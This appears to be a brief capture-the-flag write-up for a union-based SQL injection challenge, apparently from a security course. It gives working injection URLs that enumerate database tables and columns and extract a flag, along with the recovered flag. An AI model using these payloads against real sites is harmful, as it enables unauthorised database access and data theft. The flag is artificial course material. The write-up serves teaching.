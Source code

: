 union based SQLi

use this table to get needed information

http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

# get tables
http://tor.atdog.tw:8080/union/news.php?id=1%20)%20union%20(%20SELECT%20table_schema,table_name%20FROM%20information_schema.tables

# get columns
http://tor.atdog.tw:8080/union/news.php?id=1%20)%20union%20(%20SELECT%20table_name,%20column_name%20FROM%20information_schema.columns

# get flags
news.php?id=1 ) union ( select 1, flag from wtf_flags
http://tor.atdog.tw:8080/union/news.php?id=1%20)%20union%20(%20select%201,flag%20from%20wtf_flags

Title: This is title
Title: SecProg{UnionSqlInjection_is_very_simle}
